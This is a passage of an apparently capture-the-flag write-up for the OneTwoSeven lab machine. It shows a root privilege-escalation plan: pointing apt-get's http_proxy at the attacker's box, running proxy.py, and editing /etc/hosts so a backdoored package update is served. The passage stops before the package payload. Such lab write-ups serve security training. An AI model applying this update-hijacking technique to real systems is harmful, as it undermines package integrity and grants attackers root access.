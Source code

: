 

### Strategy

I'm going to use my ability to run `apt-get update` and
`apt-get upgrade` as root with a `http_proxy` environment variable I
control to MitM the process. I'll host a proxy on my Kali box that will
hijack the connection to `packages.onetwoseven.htb` and point it to a
server on my box. I'll return a backdoored version of some application
as an upgrade, and use that to get command execution and and root shell.

### MitM

To position myself to serve updates, I'll need to tell OneTwoSeven to
proxy through me, and I'll need a proxy and server waiting.

#### http_proxy

First I'll tell OneTwoSeven to proxy http through me by exporting the
environment variable:



    www-admin-data@onetwoseven:/$ export http_proxy=http://10.10.14.7:8888
    www-admin-data@onetwoseven:/$ echo $http_proxy
    http://10.10.14.7:8888



#### proxy.py

I'll use [proxy.py](https://github.com/abhinavsingh/proxy.py) as my
proxy. I can install it with `pip install --upgrade proxy.py`. Then I'll
run it, telling it to listen on all IPs and giving it the port to listen
on:



    root@kali# proxy.py --hostname 0.0.0.0 --port 8888
    2019-08-26 06:05:16,433 - INFO - run:633 - Starting server on port 8888



#### /etc/hosts

Were I to run `apt-get update` right now, the requests would come to my
proxy, where the requests for the three real Debian distros would proxy
out to the internet, and the requests for `packages.onetwoseven.htb`
would die because my host can't resolve them. I want the three main ones
to redirect off to nowhere, and the custom one to point to my host. I'll
use the `hosts` file to achieve that:



    127.0.0.1 packages.onetwoseven.htb
    192.0.2.1 de.deb.devuan.org



192.0.2.0/24 is a reserved block for testing (see [RFC
5737](https://tools.ietf.org.md/rfc5737)), so it shouldn't be in use.
